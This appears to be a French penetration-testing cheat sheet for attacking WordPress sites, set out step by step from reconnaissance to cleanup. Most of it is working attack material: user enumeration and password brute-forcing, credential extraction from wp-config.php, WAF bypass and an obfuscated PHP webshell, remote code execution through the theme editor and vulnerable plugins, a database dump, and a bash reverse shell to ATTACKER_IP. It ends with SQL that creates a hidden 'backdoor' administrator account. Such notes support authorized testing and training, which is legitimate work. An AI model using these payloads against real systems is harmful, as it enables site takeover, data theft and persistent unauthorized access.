

Cette documentation détaille les méthodologies d'audit et d'exploitation pour les instances **WordPress**.



## 1. Découverte & Identification

### Identification de l'instance
```bash
curl -s http://target/ | grep -i 'wp-content\|wp-includes\|wp-json\|WordPress'
```

### Analyse des fichiers sensibles
```bash
curl http://target/robots.txt
curl http://target/readme.html
curl -s -X POST http://target/xmlrpc.php -d '<methodCall><methodName>pingback.ping</methodName></methodCall>'
```

## 2. Énumération manuelle

### Version WordPress
```bash
curl -s http://target/?feed=rss2 | grep -i generator
```

### Thèmes et Plugins
```bash
curl -s http://target/ | grep "/wp-content/themes/"
curl -s http://target/ | grep "/wp-content/plugins/"
```

### Énumération d'utilisateurs
```bash
# Méthode passive
curl -s http://target/ | grep "/author/"

# Brute force d'ID
for i in {1..10}; do curl -s -L http://target/?author=$i | grep -i "<title>"; done
```

## 3. Énumération automatisée avec **wpscan**

### Scan global
```bash
wpscan --url http://target
```

### Scan approfondi
```bash
wpscan --url http://target --enumerate vp,vt,u --api-token <token>
```

### Attaque par dictionnaire
> [!warning]
> Attention : le brute force via **wp-login** peut déclencher des mécanismes de verrouillage (fail2ban/WAF).

```bash
# Via xmlrpc
wpscan --url http://target --password-attack xmlrpc -U admin -P rockyou.txt

# Via wp-login
wpscan --url http://target --password-attack wp-login -U admin -P rockyou.txt
```

## 4. Analyse de configuration (wp-config.php)
Si un accès en lecture est obtenu via une LFI ou un accès FTP/SSH, l'analyse du fichier `wp-config.php` est critique pour la phase de **Post-Exploitation**.

```bash
# Extraction des credentials de la base de données
grep -E "DB_USER|DB_PASSWORD|DB_HOST" wp-config.php
```

## 5. Bypass de WAF/Firewall
Pour contourner les WAF bloquant les payloads classiques, il est nécessaire d'utiliser des techniques d'obfuscation ou de modifier les en-têtes HTTP.

```bash
# Utilisation de X-Forwarded-For pour simuler une IP interne
curl -H "X-Forwarded-For: 127.0.0.1" http://target/wp-admin/

# Obfuscation de payload PHP
# Au lieu de <?php system($_GET['cmd']); ?>
# Utiliser : <?php `{$_GET['cmd']}`; ?>
```

## 6. Recherche de vulnérabilités dans le code source (Audit)
L'audit manuel des plugins ou thèmes installés permet d'identifier des vulnérabilités non référencées dans les bases CVE.

```bash
# Recherche de fonctions dangereuses dans le répertoire des plugins
grep -rnE "exec\(|shell_exec\(|system\(|passthru\(|eval\(" wp-content/plugins/
```

## 7. Exploitation

> [!danger] Prérequis
> L'accès au tableau de bord admin est nécessaire pour la méthode 'Theme Editor'.

> [!danger] Danger
> La modification de fichiers PHP peut corrompre le site et alerter les administrateurs.

### RCE via Theme Editor
Injection dans `404.php` :
```php
<?php system($_GET['cmd']); ?>
```

Accès via : `http://target/wp-admin/theme-editor.php?file=404.php&theme=active-theme`

Exécution :
```bash
curl http://target/wp-content/themes/active-theme/404.php?cmd=id
```

### RCE via plugin vulnérable
Exemple avec Mail Masta :
```bash
curl "http://target/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

### RCE via **wpDiscuz**
```bash
python3 wp_discuz_exploit.py -u http://target -p /?p=1
curl http://target/wp-content/uploads/YYYY/MM/shell.php?cmd=id
```

## 8. Exfiltration de base de données (mysqldump)
Si les credentials ont été récupérés dans `wp-config.php`, l'exfiltration permet de récupérer les hashs des utilisateurs.

```bash
mysqldump -u <db_user> -p<db_password> -h <db_host> <db_name> > dump.sql
```

## 9. Privilege Escalation & Post-Exploitation

> [!tip]
> Toujours vérifier la version de PHP sur le serveur pour adapter le payload du **Reverse Shell**.

### Shell interactif
```bash
curl http://target/wp-content/themes/theme/404.php?cmd=bash+-c+'bash+-i+>&+/dev/tcp/ATTACKER_IP/PORT+0>&1'
```

### Exploitation via **msfconsole**
```bash
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS target
set USERNAME admin
set PASSWORD password
set VHOST blog.target.local
set TARGETURI /
set PAYLOAD php/meterpreter/reverse_tcp
run
```

## 10. Persistence
Pour maintenir l'accès, l'installation d'un **Webshell** caché ou la création d'un utilisateur administrateur est courante.

```sql
-- Création d'un utilisateur admin via SQL (si accès DB)
INSERT INTO wp_users (user_login, user_pass, user_email, user_registered) VALUES ('backdoor', MD5('password'), 'test@test.com', NOW());
INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES (LAST_INSERT_ID(), 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');
```

## 11. Nettoyage

- Supprimer les fichiers PHP uploadés (`shell.php`, `reverse.php`).
- Restaurer les fichiers de thèmes ou plugins modifiés.
- Documenter les artefacts :
    - Fichiers modifiés
    - Utilisateurs compromis
    - Méthodes d'accès utilisées

## Références
- [wpscan.com](https://wpscan.com/)
- [wpscan.io](https://wpscan.io/wordpress-security-scanner)
- [GitHub wpscan](https://github.com/wpscanteam/wpscan)
- [GitHub wordpress-exploit-framework](https://github.com/rastating/wordpress-exploit-framework)

---
*Sujets liés : **Reverse Shell**, **Enumeration**, **Linux**, **Payloads**, **Python**, **Webshells***